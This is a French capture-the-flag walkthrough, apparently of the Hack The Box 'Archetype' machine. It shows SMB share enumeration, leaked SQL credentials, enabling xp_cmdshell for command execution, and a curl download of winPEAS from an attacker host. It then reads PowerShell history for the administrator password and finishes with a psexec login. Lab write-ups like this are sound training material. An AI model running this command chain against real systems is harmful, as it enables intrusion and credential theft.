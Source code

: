 
- On trouve un service SMB exposé (port 139 et 445 ouvert).
- On liste les share : `smbclient -L //10.129.191.198/`
- On trouve un fichier de configuration dans le share backup : `smbclient //10.129.191.198/backups`
- Il contient les identifiants d'un compte SQL : ARCHETYPE\sql_svc:M3g4c0rp123

## Impacket mssqlclient
On se connecte à la base de données Microsoft SQL avec le compte trouvé précédemment :
```bash
python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.191.198 -port 1433 -windows-auth
```

## Spawn a cmd shell from MS SQL
En étant connecté au service MS SQL, on exécute la commande suivante pour obtenir un cmd : 
```sql
-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Use cmd
XP_CMDSHELL 'dir';
```

On peut exécuter des commandes sur le serveur !
Maintenant, on souhaite élever nos privilèges

## Winpeas
Pour élever ces privilèges, on va télécharger winpeas sur le serveur. 
Pour ça :
- On commence par télécharger un .exe de Winpeas localement
- On sert ce fichier avec un serveur python : `python3 -m http.server 8080`
- On fait une requête depuis le serveur (dans le shell dans SQL) pour télécharger le fichier exe (on le télécharge dans un dossier où on a les droits d'écriture) : 
```sql
XP_CMDSHELL 'curl http://10.10.15.97:8080/winPEASx64.exe -o C:\Users\sql_svc\Desktop\winPEAS.exe';
```


On exécute WinPEAS sur le serveur.
Comme il y a beaucoup d'output, on le met dans un fichier pour pouvoir faire des grep.
```SQL
XP_CMDSHELL 'findstr .txt C:\Users\sql_svc\Desktop\output.txt';
-- On affiche le contenu du fichier (consoleHost_history est l'équivalent de bash_history sur linux)
XP_CMDSHELL 'type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
```

Et hop, on obtient le mot de passe administrateur : `/user:administrator MEGACORP_4dm1n!!`

## Psexec
On se connecte en tant qu'admin avec psexec (script de la suite impacket pou linux) :
```bash
python3 impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.129.191.198
```

Ensuite, on cherche sur le bureau et on trouve le flag !